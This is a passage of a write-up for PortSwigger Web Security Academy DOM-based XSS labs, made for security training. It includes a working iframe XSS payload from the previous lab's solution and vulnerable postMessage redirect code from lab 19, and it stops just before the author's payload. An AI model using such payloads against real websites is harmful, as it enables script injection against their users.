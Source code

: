 The official solution does this sending only one message:

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```

# 19 - DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. 

To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

- https://portswigger.net/web-security/cross-site-scripting/dom-based

- https://stackoverflow.com/questions/24078332/is-it-secure-to-use-window-location-href-directly-without-validation

---------------------------------------------

Generated link: https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/


Vulnerable code:



![img](images/19%20-%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

If the payload contains “http:” or “https:”, it will redirect to that page.


Our payload in the exploit server:
